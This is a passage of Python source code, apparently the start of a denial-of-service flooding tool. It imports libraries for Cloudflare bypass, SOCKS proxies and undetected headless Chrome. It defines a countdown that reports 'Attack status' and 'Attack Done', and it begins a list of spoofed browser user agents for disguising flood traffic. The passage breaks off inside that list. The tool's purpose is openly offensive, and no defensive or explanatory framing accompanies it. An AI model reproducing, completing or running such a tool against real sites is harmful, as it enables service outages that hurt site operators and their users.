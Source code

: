 # -*- coding: utf-8 -*-
from os import system, name
import httpx
#import asyncio
from httpx import AsyncClient, Headers
import os, threading, requests, cloudscraper, datetime, time, socket, socks, ssl, random
from urllib.parse import urlparse
from requests.cookies import RequestsCookieJar
import undetected_chromedriver as webdriver
from sys import stdout
from colorama import Fore, init
init(convert=True)
def countdown(t):
    until = datetime.datetime.now() + datetime.timedelta(seconds=int(t))
    while True:
        if (until - datetime.datetime.now()).total_seconds() > 0:
            stdout.flush()
            stdout.write("\r "+Fore.MAGENTA+"[*]"+Fore.WHITE+" Attack status => " + str((until - datetime.datetime.now()).total_seconds()) + " sec left ")
        else:
            stdout.flush()
            stdout.write("\r "+Fore.MAGENTA+"[*]"+Fore.WHITE+" Attack Done !                                   \n")
            return
#ua
useragents=["Mozilla/5.0 (Android; Linux armv7l; rv:10.0.1) Gecko/20100101 Firefox/10.0.1 Fennec/10.0.1",
			"Mozilla/5.0 (Android; Linux armv7l; rv:2.0.1) Gecko/20100101 Firefox/4.0.1 Fennec/2.0.1",
			"Mozilla/5.0 (WindowsCE 6.0; rv:2.0.1) Gecko/20100101 Firefox/4.0.1",
			"Mozilla/5.0 (Windows NT 5.1; rv:5.0) Gecko/20100101 Firefox/5.0",
			"Mozilla/5.0 (Windows NT 5.2; rv:10.0.1) Gecko/20100101 Firefox/10.0.1 SeaMonkey/2.7.1",
			"Mozilla/5.0 (Windows NT 6.0) AppleWebKit/535.2 (KHTML, like Gecko) Chrome/15.0.874.120 Safari/535.2",
			"Mozilla/5.0 (Windows NT 6.1) AppleWebKit/535.2 (KHTML, like Gecko) Chrome/18.6.872.0 Safari/535.2 UNTRUSTED/1.0 3gpp-gba UNTRUSTED/1.0",
			"Mozilla/5.0 (Windows NT 6.1; rv:12.0) Gecko/20120403211507 Firefox/12.0",
			"Mozilla/5.0 (Windows NT 6.1; rv:2.0.1) Gecko/20100101 Firefox/4.0.1",
			"Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:2.0.1) Gecko/20100101 Firefox/4.0.1",
			"Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/534.27 (KHTML, like Gecko) Chrome/12.0.712.0 Safari/534.27",
			"Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/535.1 (KHTML, like Gecko) Chrome/13.0.782.24 Safari/535.1",
			"Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/535.7 (KHTML, like Gecko) Chrome/16.0.912.36 Safari/535.7",
			"Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/536.6 (KHTML, like Gecko) Chrome/20.0.1092.0 Safari/536.6",
			"Mozilla/5.0 (Windows NT 6.1; WOW64; rv:10.0.1) Gecko/20100101 Firefox/10.0.1",
			"Mozilla/5.0 (Windows NT 6.1; WOW64; rv:15.0) Gecko/20120427 Firefox/15.0a1",
			"Mozilla/5.0 (Windows NT 6.1; WOW64; rv:2.0b4pre) Gecko/20100815 Minefield/4.0b4pre",
			"Mozilla/5.0 (Windows NT 6.1; WOW64; rv:6.0a2) Gecko/20110622 Firefox/6.0a2",
			"Mozilla/5.0 (Windows NT 6.1; WOW64; rv:7.0.1) Gecko/20100101 Firefox/7.0.1",
			"Mozilla/5.0 (Windows NT 6.2) AppleWebKit/536.3 (KHTML, like Gecko) Chrome/19.0.1061.1 Safari/536.3",
			"Mozilla/5.0 (Windows; U; ; en-NZ) AppleWebKit/527  (KHTML, like Gecko, Safari/419.3) Arora/0.8.0",
			"Mozilla/5.0 (Windows; U; Win98; en-US; rv:1.4) Gecko Netscape/7.1 (ax)",
			"Mozilla/5.0 (Windows; U; Windows CE 5.1; rv:1.8.1a3) Gecko/20060610 Minimo/0.016",
			"Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US) AppleWebKit/531.21.8 (KHTML, like Gecko) Version/4.0.4 Safari/531.21.10",
			"Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US) AppleWebKit/534.7 (KHTML, like Gecko) Chrome/7.0.514.0 Safari/534.7",
			"Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.8.1.23) Gecko/20090825 SeaMonkey/1.1.18",
			"Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.9.0.10) Gecko/2009042316 Firefox/3.0.10",